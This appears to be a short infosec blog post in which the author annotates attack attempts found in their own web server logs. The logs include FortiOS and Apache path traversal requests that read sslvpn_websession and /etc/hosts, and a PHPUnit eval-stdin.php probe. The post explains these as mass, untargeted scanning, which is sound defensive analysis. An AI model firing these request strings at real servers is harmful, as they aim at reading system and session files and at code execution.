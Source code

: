 ```yaml
---
title: "Interesting web traffic"
date: 2022-09-30
author: Effex
tags: ["infosec"]
---
```


I got bored and decided to have a quick browse of my web server's access logs.

#### Directory Traversal

```
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
```
This one is a web traversal attack attempt. From what I can see it is intended for Fortios SSL VPNs. Which my server does not run. More info:

https://gist.github.com/code-machina/bae5555a771062f2a8225fd4731ae3f7

#### Directory Traversal 2

Then we have another directory traversal attack:

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/hosts HTTP/1.1
```

This one is directed at Apache. Which my server does not run. Details:

https://blogs.juniper.net/en-us/threat-research/apache-http-server-cve-2021-42013-and-cve-2021-41773-exploited

#### A Scanner Darkly

The larger log entry seems to be part of zgrab, a tool for fast scanning web infrastructure.

```
\x05\x01\xF4GY\xB3\xBF\x169\x88\xD0\x92$\xD5<\x89

144.126.214.96 - - [30/Sep/2022:01:50:29 +0000] "\x05\x01\xF4GY\xB3\xBF\x169\x88\xD0\x92$\xD5<\x89" 400 157 "-" "-"
144.126.214.96 - - [30/Sep/2022:01:50:30 +0000] "GET /ab2g HTTP/1.1" 404 125 "-" "Mozilla/5.0 zgrab/0.x"
144.126.214.96 - - [30/Sep/2022:01:50:31 +0000] "GET /ab2h HTTP/1.1" 404 125 "-" "Mozilla/5.0 zgrab/0.x"
144.126.214.96 - - [30/Sep/2022:01:50:35 +0000] "GET / HTTP/1.1" 200 725 "-" "Mozilla/5.0 zgrab/0.x"
144.126.214.96 - - [30/Sep/2022:01:50:35 +0000] "GET / HTTP/1.1" 400 255 "-" "Mozilla/5.0 zgrab/0.x"
```

#### More Directory Traversal

Another interesting set of attack attempts. Some obfuscated directory traversal again, this time targetting PHP, which has never been on my box.

```
161.35.188.242 - - [30/Sep/2022:00:26:30 +0000] "GET / HTTP/1.1" 400 157 "-" "-"
161.35.188.242 - - [30/Sep/2022:00:26:58 +0000] "GET / HTTP/1.1" 200 1329 "-" "l9tcpid/v1.1.0"
161.35.188.242 - - [30/Sep/2022:00:27:00 +0000] "PUT /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1" 404 125 "-" "Go-http-client/1.1"
161.35.188.242 - - [30/Sep/2022:00:27:02 +0000] "GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/hosts HTTP/1.1" 400 157 "-" "-"
161.35.188.242 - - [30/Sep/2022:00:27:02 +0000] "GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/hosts HTTP/1.1" 400 157 "-" "-"
161.35.188.242 - - [30/Sep/2022:00:27:03 +0000] "GET /.DS_Store HTTP/1.1" 404 125 "-" "Go-http-client/1.1"
```

https://www.cvedetails.com/cve/CVE-2017-9841/

#### What any of this means?

All of these attacks are shots in the dark, random attacks shot at a random system (or likely hundreds, thousands, a hundred-thousand random systems) with the hope that something might stick.

We've exited the age of reconnaissance, and entered the age of high volume, the age of randomly (or methodologically) targetted attacks.

It has become more effective to start by throwing the kitchen sink.

